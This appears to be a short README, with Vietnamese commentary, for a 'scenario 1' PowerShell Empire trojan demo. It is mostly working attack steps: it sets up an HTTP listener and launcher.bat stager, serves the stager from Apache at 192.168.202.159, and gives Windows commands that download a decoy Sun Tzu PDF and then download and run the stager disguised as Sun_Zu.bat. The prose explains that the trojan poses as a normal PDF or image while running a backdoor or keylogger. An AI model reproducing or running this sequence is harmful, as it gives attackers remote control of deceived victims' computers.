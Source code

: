 [Demo](https://www.youtube.com/watch?v=-ijzoEiw1Cw)
![Screenshot_17](https://user-images.githubusercontent.com/42117477/222315770-626cd380-7ce8-48c5-aef4-de4f2741c0e9.png)
powershell-empire server 
powershell-empire client

uselistener http
set Host 192.168.202.159
set Port 8080
execute

usestager windows/launcher_bat
set Listener http

execute

sudo service apache2 start
sudo service apache2 status
sudo mv /var/lib/powershell-empire/empire/client/generated-stagers/launcher.bat /var/www/html/launcher.bat

192.168.202.159/launcher.bat

cd %TEMP%
Powershell -Command "Invoke-WebRequest 'https://dotchuoinon.files.wordpress.com/2012/07/ton-tu-binh-phap.pdf' -OutFile Tontu.pdf"
Tontu.pdf
Powershell -Command "Invoke-WebRequest 'http://http://192.168.202.159/launcher.bat' -OutFile Sun_Zu.bat"
Sun_Zu.bat

Kịch bản 1 tạo 1 trojan sử dụng Powershell
Trojan là một tập tin có giao diện trông giống như một tệp hình ảnh hoặc pdf bình thường
nhưng khi được thực thi, nó sẽ chạy các mã độc ở chế độ nền như 1 backdoor hoặc 1 keylogger

Về cơ bản, đây là một lệnh tải xuống và tiếp theo đó là lệnh tự động chạy file

